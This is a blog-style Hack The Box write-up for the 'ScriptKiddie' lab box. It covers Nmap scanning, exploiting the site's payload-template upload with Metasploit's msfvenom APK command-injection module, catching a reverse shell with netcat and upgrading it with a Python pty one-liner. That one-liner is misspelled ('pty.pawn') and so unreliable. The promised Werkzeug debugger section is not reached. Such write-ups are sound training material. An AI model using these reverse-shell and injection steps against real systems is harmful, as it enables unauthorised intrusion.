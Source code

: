 ```yaml
---
title: "HTB Writeup 1: Werkzeug"
date: 2020-03-18T07:56:03+00:00
# weight: 1
# aliases: ["/first"]
tags: ["hack the box"]
author: Nate
# author: ["Me", "You"] # multiple authors
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A completely unnecessary hack."
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
searchHidden: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page

---
```


### Messing with the Werkzeug Vulnerability in ScriptKiddie

As stated in the description, this is a very unnecessary hack.  
However, I wanted to test out the Werkzeug vulnerability and the  
ScriptKiddie box allowed me to do so without a lot of setup. This writeup  
will show you how to get the user flag, but after that it simply details  
how to enable the Werkzeug debugger vulnerability and exploit it.
All just for fun!  

#### Background:

**Werkzeug**  

A comprehensive WSGI web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries.  

Werkzeug comes with an intuitive debugger console that accepts Python scripts.  
the issue arises when debugging is enabled in a production environment.  
When the debugger console is available, so is the potential to put down a Python shell.  


#### Scanning the box

We're starting off with a fairly simple Nmap scan for this one:  
`nmap -A 10.10.10.226`  

Here's the output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
```

This is what initially sent me down the Werkzeug path. Being that this is and easy  
capture the flag box. It would make sense that this is the vulnerability they  
added...but that's not the case!  

Since it's running a web application though, we should check out what they've built.

#### Reverse shell  

The site has a few features built in like running an Nmap scan or building a reverse shell   
payload (guess that's why this one is titled ScriptKiddie). The reverse shell feature has  
an option to upload a template file. This is where things get fun.  

We can use **msvenom** to create a reverse shell pretty quickly.  
It looks like the site accepts a few different file types based on operating system.  
Let's select Android since that's definitely a .apk file.  

`msfconsole > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  

Using that template, set the LHOST and LPORT to your local information.  
and set the RHOST and RPORT to the ScriptKiddie box information.  

annnnnd "exploit"

Now, before we do anything with this file let's set up a netcat listener on our machine:  

`nc -nlvp <port>` (I like to use port 1234, but take your pick)  

Head back to the site and select the .apk file you just generated and upload it.  
Don't forget to type in your IP on the host box and select Android from the dropdown menu.  
Upload your file and head back to your listener!  

```  

  └─# nc -nlvp 4444           
      listening on [any] 4444 ...
      connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 35962

```

#### Capture the flag!

We have a shell now! (Well sort of). Doesn't seem to be interactive yet.  
Python comes with a great module called Pseudo-terminal Utilities.  
We can use this to our advantaged to spawn a bash shell and interact with the machine.  

`python3 -c "import pty;pty.pawn('/bin/bash')"`  

If nothing happens at first try just hitting enter or waiting a minute...it is Python...  

You should see an interactive terminal now under the user 'kid.'  

kid@scriptkiddie:~/html$  

Snoop around for a bit and you should find the user.txt flag!  
